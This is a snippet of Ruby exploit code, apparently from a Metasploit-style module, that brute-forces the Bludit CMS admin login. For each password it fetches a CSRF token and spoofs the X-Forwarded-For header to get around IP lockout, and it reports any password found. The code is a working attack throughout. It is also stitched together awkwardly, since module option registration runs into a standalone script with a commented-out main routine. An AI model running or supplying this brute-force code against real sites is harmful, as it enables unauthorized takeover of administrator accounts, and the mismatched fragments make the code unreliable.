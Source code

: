 ```r
      'DisclosureDate' => "2019-10-05",
      'DefaultTarget'  => 0))
      
     register_options(
      [
        OptString.new('TARGETURI', [true, 'The base path for Bludit', '/']),
        OptString.new('BLUDITUSER', [true, 'The username for Bludit']),
        OptPath.new('PASSWORDS', [ true, 'The list of passwords',
        	File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
      ])
  end
  
  # -- Exploit code -- #
  # dirty workaround to remove this warning:
#   Cookie#domain returns dot-less domain name now. Use Cookie#dot_domain if you need "." at the beginning.
# see https://github.com/nahi/httpclient/issues/252
class WebAgent
  class Cookie < HTTP::Cookie
    def domain
      self.original_domain
    end
  end
end

def get_csrf(client, login_url)
  res = client.get(login_url)
  csrf_token = /input.+?name="tokenCSRF".+?value="(.+?)"/.match(res.body).captures[0]
end

def auth_ok?(res)
  HTTP::Status.redirect?(res.code) &&
    %r{/admin/dashboard}.match?(res.headers['Location'])
end

def bruteforce_auth(client, host, username, wordlist)
  login_url = host + '/admin/login'
  File.foreach(wordlist).with_index do |password, i|
    password = password.chomp
    csrf_token = get_csrf(client, login_url)
    headers = {
      'X-Forwarded-For' => "#{i}-#{password[..4]}",
    }
    data = {
      'tokenCSRF' => csrf_token,
      'username' => username,
      'password' => password,
    }
    puts "[*] Trying password: #{password}"
    auth_res = client.post(login_url, data, headers)
    if auth_ok?(auth_res)
      puts "\n[+] Password found: #{password}"
      break
    end
  end
end

#begin
#  args = Docopt.docopt(doc)
#  pp args if args['--debug']
#
#  clnt = HTTPClient.new
#  bruteforce_auth(clnt, args['--root-url'], args['--user'], args['--#wordlist'])
```